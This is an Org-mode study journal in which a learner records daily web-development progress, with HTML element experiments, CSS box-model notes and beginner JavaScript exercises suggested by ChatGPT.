#+begin_src css :noweb no
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html :noweb no
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js :noweb no
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html :noweb no
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js :noweb no
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html :noweb no
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js :noweb no
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js :noweb no
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js :noweb no
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

